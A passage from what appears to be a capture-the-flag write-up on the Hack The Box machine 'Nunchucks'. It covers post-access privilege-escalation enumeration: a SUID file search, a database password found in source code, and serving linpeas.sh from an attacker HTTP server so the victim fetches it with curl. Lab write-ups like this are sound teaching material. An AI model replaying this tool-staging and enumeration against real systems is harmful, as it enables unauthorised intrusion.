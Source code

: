 and sshed form our attacker machine into the victim's system as the user david. 
```fish
ssh david@10.10.11.122
```
> *Note:* the user david can be found in the response of the first exploit.

getting the user flag is easy for this point on.


## Privilege escalation
After gathering the user flag we now try to own the machine by opening the root flag. 

### searching for the SETUID-bit
Next we started searching for programs using the SETUID-bit to execute commands as root. 

```fish
david@nunchucks:~$ find / -perm /u=s 2>/dev/null

/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/at
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/su
/usr/bin/sudo
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
```
Interesting, but nothing from it seems to be harmful or miss configured at first sight. 

By the way we also found the credentials for the sql database in the `controllers/routs.js`:
```fish
var mysql      = require('mysql');
var connection = mysql.createConnection({
  host     : 'localhost',
  user     : 'newsletter_admin',
  password : 'StoreNLetters2021',
  database : 'newsletters'
});
```
At this point we got stuck fo a bit as the programs with SETUID-bit where not that helpful.

### Using `linpees.sh` to find the vulnerability

So we tried using [`linpees.sh`](`https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS`). Its a collection of scripts searching for possible privilege escalation vectors. 
We downloaded it form the [git](https://github.com/carlospolop/PEASS-ng/releases/) and transferred it with a mini http sever to the victim's machine. 
```fish
htb@attacker:
╰─❯ curl https://github.com/carlospolop/PEASS-ng/releases/tag/20230425-bd7331ea/linpeas.sh -o linpeas.sh
╰─❯ python3 -m http.server 8000 

-----------------------------------------------------------------------------

david@nunchucks:
╰─❯ curl http://10.10.16.3:8000/linpeas.sh -o linpeas.sh
```